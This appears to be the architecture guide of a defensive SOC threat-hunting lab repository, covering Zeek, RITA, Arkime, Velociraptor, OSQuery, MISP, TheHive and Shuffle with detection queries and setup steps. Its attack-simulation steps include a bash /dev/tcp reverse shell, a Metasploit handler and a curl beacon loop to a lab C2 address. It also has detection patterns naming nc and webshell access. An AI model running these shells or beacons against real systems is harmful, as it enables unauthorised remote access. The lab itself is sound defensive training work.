








# 🏗️ Architecture — Advanced Threat Detection Lab

> **Goal:** Build a real SOC analyst environment — detect attacks as they happen, investigate forensically, enrich with global threat intel, and respond automatically.

---

## 📐 Big Picture: How All 8 Tools Connect



---

## 🌐 Network Layout — Your Lab VLANs



> **VirtualBox Setup:** Each VM gets 2 network adapters — one for management traffic (eth0), one for the capture/mirror interface (eth1, promiscuous mode). This mimics a real enterprise TAP deployment.

---

## 🔬 Section 1 — Network Traffic Analysis

### How Zeek + RITA Work Together



### What Gets Detected

| Zeek Log | What It Captures | Threat Detected |
|----------|------------------|-----------------|
| `conn.log` | All TCP/UDP connections + duration | C2 beaconing (via RITA) |
| `dns.log` | Every DNS query + response | DNS tunneling (long subdomain queries) |
| `http.log` | HTTP method, URI, user-agent | Webshell access, malware download |
| `ssl.log` | TLS version, JA3 fingerprint, SNI | Encrypted C2, suspicious TLS |
| `files.log` | File transfers, MIME type, hash | Malware delivery |
| `notice.log` | Zeek-generated alerts | Port scans, suspicious patterns |
| `weird.log` | Protocol violations | Evasion attempts |
| `x509.log` | Certificate issuer, validity | Phishing certs, self-signed C2 |

### Hands-On: Detect C2 Beaconing Right Now

```bash
# Step 1 — On target VM, simulate a beacon (every 60s to "C2")
while true; do curl -s http://192.168.20.10/beacon > /dev/null; sleep 60; done &

# Step 2 — On Zeek VM, watch connections appear in real-time
tail -f /opt/zeek/logs/current/conn.log | zeek-cut ts id.orig_h id.resp_h id.resp_p duration

# Step 3 — Import into RITA and analyze
cd /opt/zeek/logs/current && rita import . soc-hunt
rita show-beacons soc-hunt --limit 10

# Expected output:
# Score     Source           Destination      Connections  Avg Delta
# 0.951     192.168.30.10    192.168.20.10    42           60.1s
```

---

## 🔎 Section 2 — Full Packet Capture (Arkime)

### How Arkime Captures and Indexes Packets



### Hands-On: Find the Attack in Arkime

```bash
# Access Arkime UI
open http://192.168.50.20:8005
# Login: admin / admin (change on first run!)

# Search queries to try:
port.dst == 4444                          # Metasploit default listener
protocols == tls && cert.issuer == ""     # Self-signed cert (C2)
http.uri == *cmd.php*                     # Webshell access
bytes > 10000000 && duration < 60        # Large fast transfer (exfil)
ip.dst == 192.168.20.10                   # Any traffic to attacker VM
```

---

## 🕵️ Section 3 — Endpoint Detection (Velociraptor)

### Agent → Server → Hunt Flow



### Live Investigation: What to Run After an Alert

```sql
-- Run these queries in Velociraptor UI → Hunt Manager → New Hunt

-- 1. Who is running suspicious processes?
SELECT Pid, Name, CommandLine, Username, CreateTime
FROM pslist()
WHERE Name IN ("nc","ncat","bash","sh","python","perl","ruby")
ORDER BY CreateTime DESC

-- 2. What network connections does a suspicious process have?
SELECT * FROM netstat()
WHERE Pid = 1234   -- replace with suspicious PID

-- 3. What files does it have open?
SELECT * FROM handles(pid=1234)
WHERE Type = "File"

-- 4. Dump the process memory for malware analysis
SELECT * FROM proc_dump(pid=1234)

-- 5. Was anything added to cron or systemd in last 24 hours?
SELECT FullPath, Mtime, read_file(filename=FullPath, length=500) AS Content
FROM glob(globs=["/etc/cron.*/*", "/etc/systemd/system/*.service"])
WHERE Mtime > now() - 86400
```

---

## 🗄️ Section 4 — OSQuery Endpoint Visibility

### How OSQuery Turns Your Endpoint Into a Database

```mermaid
flowchart TD
    A[osqueryd\nScheduled Daemon] -->|Every 60s| B{Query Packs}
    B --> C[soc-detections.conf\n12 threat queries]
    B --> D[incident-response.conf\n15 IR queries]

    C --> E{Results}
    D --> E

    E -->|New rows = alert| F[/var/log/osquery/\nosqueryd.results.log]
    F -->|Filebeat/rsyslog| G[🟡 Wazuh SIEM\nCorrelation Rules]
    G -->|Wazuh alert| H[🟠 TheHive\nAuto-case]

    I[Analyst] -->|ad-hoc query| J[osqueryi\nInteractive Shell]
    J -->|instant answer| I
```

### OSQuery Quick Reference

```bash
# Launch interactive shell
osqueryi

# Processes making outbound connections
SELECT p.name, p.pid, n.remote_address, n.remote_port, n.state
FROM process_open_sockets n JOIN processes p ON n.pid = p.pid
WHERE n.state='ESTABLISHED' AND n.remote_port != 0
ORDER BY n.remote_port;

# Find hidden files in temp directories (malware staging)
SELECT path, mtime, size FROM file
WHERE path LIKE '/tmp/.%' OR path LIKE '/dev/shm/.%';

# Non-standard SUID binaries (privilege escalation risk)
SELECT path, permissions, uid FROM suid_bin
WHERE path NOT LIKE '/usr/bin/%' AND path NOT LIKE '/bin/%';

# Who is logged in right now?
SELECT type, user, host, time FROM logged_in_users ORDER BY time DESC;

# What ports is this machine listening on?
SELECT l.port, l.protocol, p.name, p.pid, p.cmdline
FROM listening_ports l JOIN processes p ON l.pid = p.pid
WHERE l.port > 1024 ORDER BY l.port;
```

---

## 🌐 Section 5 — Threat Intelligence (MISP)

### IOC Lifecycle: From Feed to Detection



### Hands-On: Add an IOC and Watch It Block

```bash
# Step 1: Add a suspicious IP to MISP via API
curl -k -s -X POST -H "Authorization: $MISP_KEY" \
     -H "Content-Type: application/json" \
     https://192.168.60.10/attributes/add/1 \
     -d '{"type":"ip-dst","value":"10.99.99.99","to_ids":1,"comment":"Lab C2 test"}'

# Step 2: Sync MISP IOCs to Wazuh + OSQuery
python3 05-misp/scripts/ioc-sync.py --mode sync

# Step 3: Verify Wazuh CDB list updated
grep "10.99.99.99" /var/ossec/etc/lists/misp-malicious-ips
# Expected: 10.99.99.99:malicious-ip

# Step 4: Simulate connection to that IP
curl http://10.99.99.99/ 2>/dev/null || true

# Step 5: Wazuh should fire alert "MISP IOC Match" within 60s
tail -f /var/ossec/logs/alerts/alerts.json | grep "misp"
```

---

## 🟠 Section 6 — Case Management (TheHive)

### How an Alert Becomes a Case

```mermaid
stateDiagram-v2
    [*] --> Alert: Tool sends webhook
    Alert --> Triage: Analyst reviews
    Triage --> FalsePositive: Not real
    Triage --> Case: Confirmed threat
    FalsePositive --> [*]
    Case --> Investigation: Assign analyst
    Investigation --> Containment: Threat confirmed
    Containment --> Eradication: Host isolated
    Eradication --> Recovery: Malware removed
    Recovery --> LessonsLearned: System restored
    LessonsLearned --> [*]: Case closed
    
    note right of Case: Tasks assigned:\n1. Triage\n2. Containment\n3. Forensics\n4. Eradication\n5. Recovery
    note right of Containment: Shuffle SOAR\nauto-blocks IP\nauto-isolates host
```

### Alert Sources → TheHive

| Source | What It Sends | Severity |
|--------|---------------|----------|
| RITA | Beaconing host (score > 0.7) | High |
| Zeek | DNS tunnel, port scan, webshell | Medium–High |
| Arkime | Suspicious session (big transfer, odd port) | Medium |
| Velociraptor | Hunt findings, persistence artifacts | High–Critical |
| OSQuery | Backdoor port, SUID binary, cron persistence | Medium–High |
| MISP | New IOC match on your network | High–Critical |
| Shuffle | Automated response confirmation | Info |

---

## ⚡ Section 7 — SOAR Automation (Shuffle)

### Automated Incident Response Flow



---

## 📊 MITRE ATT&CK Coverage Map



---

## 🔌 Service Ports — Quick Reference

| Service | IP Address | Port | Protocol | Access |
|---------|-----------|------|----------|--------|
| **Zeek** (passive) | 192.168.50.10 | — | Passive capture | SSH only |
| **RITA** | 192.168.50.10 | 4380 | HTTPS | Browser |
| **Arkime Web UI** | 192.168.50.20 | 8005 | HTTP | Browser |
| **Elasticsearch** | 192.168.50.20 | 9200 | HTTP | API |
| **Velociraptor UI** | 192.168.50.30 | 8889 | HTTPS | Browser |
| **Velociraptor Agent** | 192.168.50.30 | 8000 | gRPC | Agent only |
| **OSQuery** | each endpoint | — | Local daemon | SSH + logs |
| **MISP Web** | 192.168.60.10 | 443 | HTTPS | Browser |
| **MISP API** | 192.168.60.10 | 443 | REST/JSON | API key |
| **TheHive** | 192.168.60.20 | 9000 | HTTP | Browser + API |
| **Cortex** | 192.168.60.20 | 9001 | HTTP | Browser |
| **Shuffle SOAR** | 192.168.60.30 | 3001 | HTTPS | Browser |

---

## 🚀 Quick Start — Detection in 4 Steps

```bash
# ══════════════════════════════════════════════
# STEP 1: Launch the lab (run on each VM)
# ══════════════════════════════════════════════
# Zeek VM:
sudo ./01-zeek-rita/install-zeek.sh
sudo ./01-zeek-rita/install-rita.sh

# Arkime VM:
sudo ./02-arkime/install-arkime.sh

# Velociraptor VM (server):
sudo SERVER_IP=192.168.50.30 ./03-velociraptor/install-velociraptor.sh

# All target VMs (agents):
sudo ./04-osquery/install-osquery.sh

# MISP VM:
sudo MISP_IP=192.168.60.10 ./05-misp/install-misp.sh

# TheHive VM:
sudo HIVE_IP=192.168.60.20 ./06-thehive/install-thehive.sh

# Shuffle VM:
sudo ./07-shuffle/install-shuffle.sh

# ══════════════════════════════════════════════
# STEP 2: Simulate an attack from Kali
# ══════════════════════════════════════════════
# On Kali (192.168.20.10):
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/shell_reverse_tcp; \
  set LHOST 192.168.20.10; set LPORT 4444; run"

# On target VM:
bash -i >& /dev/tcp/192.168.20.10/4444 0>&1

# ══════════════════════════════════════════════
# STEP 3: Watch detections fire automatically
# ══════════════════════════════════════════════
# Zeek catches connection in conn.log (within seconds)
tail -f /opt/zeek/logs/current/conn.log | zeek-cut id.orig_h id.resp_h id.resp_p proto

# RITA detects beaconing (after 10+ connections)
rita show-beacons soc-hunt

# OSQuery detects reverse shell process (within 60s)
grep "proc_net_activity" /var/log/osquery/osqueryd.results.log | tail -5

# Velociraptor live query:
# UI → Hunts → New: SELECT * FROM netstat() WHERE Raddr.Port = 4444

# ══════════════════════════════════════════════
# STEP 4: Respond via TheHive + Shuffle
# ══════════════════════════════════════════════
# TheHive auto-case created → Shuffle auto-isolates host
# Check TheHive: http://192.168.60.20:9000
# Check Shuffle: https://192.168.60.30:3001
```

---

## 📁 Repository Structure

```
soc-threat-hunting-lab/
├── 📄 README.md                    ← Start here
├── docs/
│   ├── 📐 architecture.md          ← This file — full data flows
│   ├── 🖥️  vm-build-guide.md       ← Step-by-step VM creation
│   └── 🛡️  detection-coverage.md   ← MITRE ATT&CK coverage table
├── 01-zeek-rita/                   ← Network traffic analysis
│   ├── install-zeek.sh             ← Installs Zeek + custom scripts
│   └── install-rita.sh             ← Installs RITA beaconing detector
├── 02-arkime/                      ← Full packet capture
│   └── install-arkime.sh           ← Arkime + Elasticsearch
├── 03-velociraptor/                ← Live EDR + DFIR
│   ├── install-velociraptor.sh     ← Server install
│   ├── artifacts/                  ← Custom VQL hunt artifacts
│   └── hunts/                      ← Ready-to-run VQL queries
├── 04-osquery/                     ← SQL endpoint visibility
│   ├── install-osquery.sh          ← Daemon + config
│   └── packs/                      ← Detection + IR query packs
├── 05-misp/                        ← Threat intelligence
│   ├── install-misp.sh             ← MISP platform
│   ├── feeds/                      ← Feed configurations
│   └── scripts/ioc-sync.py         ← Auto-sync IOCs to all tools
├── 06-thehive/                     ← Case management
│   ├── install-thehive.sh          ← TheHive 5 + Cortex
│   └── templates/                  ← IR case templates
├── 07-shuffle/                     ← SOAR automation
│   ├── install-shuffle.sh          ← Shuffle install
│   └── workflows/                  ← Auto-response workflows
├── 08-integrations/                ← Cross-tool glue
│   ├── scripts/                    ← Alert forwarders, correlators
│   ├── playbooks/                  ← Hands-on IR playbooks
│   └── sigma-rules/                ← Portable detection rules
└── scripts/
    ├── setup-host.sh               ← Install lab prerequisites
    └── health-check.sh             ← Verify all services running
```
